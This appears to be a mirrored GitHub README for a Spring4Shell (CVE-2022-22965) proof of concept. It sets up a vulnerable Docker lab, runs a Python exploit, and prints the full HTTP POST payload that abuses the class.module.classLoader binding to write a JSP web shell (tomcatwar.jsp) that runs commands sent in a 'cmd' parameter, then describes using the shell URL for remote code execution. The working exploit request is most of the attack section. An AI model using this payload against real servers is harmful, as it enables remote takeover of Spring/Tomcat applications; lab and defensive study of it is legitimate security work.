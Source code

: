 # cve-2022-22965

Spring4Shell - CVE-2022-22965

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/twseptian](https://github.com/twseptian) |
| Url      | [https://github.com/twseptian/cve-2022-22965](https://github.com/twseptian/cve-2022-22965)                                               |
| Stars    | 2                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve-2022-22965* spring-framework-vulnerability* spring4shell* spring4shell-poc

</details>

## Readme

# Spring4Shell - CVE-2022-22965

## Build
- let's clone the repository, build and run the container

```bash
$ git clone https://github.com/twseptian/cve-2022-22965.git
$ cd cve-2022-22965
$ docker build . -t spring4shell-poc
$ docker run -p 8080:8080 --name spring4shell-poc spring4shell-poc
```
- check the access using browser `http://172.17.0.2:8080/spring-form/greeting`

![docker run](screenshots/docker_run.png)

## PoC
- we add proxy on the `poc.py`.
```bash
[SNIP]
proxies = {'http':'http://127.0.0.1:8081','https':'https://127.0.0.1:8081'} #proxy configuration
[SNIP]
...
[SNIP]
        try:
            requests.post(self.url,
                          headers=headers,
                          data=data,
                          timeout=15,
                          allow_redirects=False,
                          verify=False, proxies=proxies)
[SNIP]                          
```

- run the `poc.py` with following command. 
```bash
$ python3 poc.py --url http://172.17.0.2:8080/spring-form/greeting
Vulnerable，shell url: http://172.17.0.2:8080/tomcatwar.jsp?pwd=j&cmd=whoami
```

![python poc](screenshots/poc.png)

**NOTE**: Thanks to [Spring4Shell PoC Application](https://github.com/reznok/Spring4Shell-POC) for the python's exploit

- while the exploit generates a shell url, we can intercept the post request using burpsuite

```bash
POST /spring-form/greeting HTTP/1.1
Host: 172.17.0.2:8080
User-Agent: python-requests/2.23.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
suffix: %>//
c1: Runtime
c2: <%
DNT: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 762

class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```

**NOTE**: you can analyze the request by yourself #lul

- the exploit will generate the shell url. we can access the url on the browser to take a remote code execution from target.

![shell url](screenshots/shell_url.png)

![shell url](screenshots/shell_url2.png)

## References
- [Spring4Shell PoC Application](https://github.com/reznok/Spring4Shell-POC)
- [Spring4Shell-POC (CVE-2022-22965)](https://github.com/BobTheShoplifter/Spring4Shell-POC)



## Get the content

```
git clone https://github.com/twseptian/cve-2022-22965
cd cve-2022-22965
```

{% embed url="https://github.com/twseptian/cve-2022-22965" %}

<figure><img src="https://avatars.githubusercontent.com/u/9025301?v=4" alt=""><figcaption><p>twseptian</p></figcaption></figure>
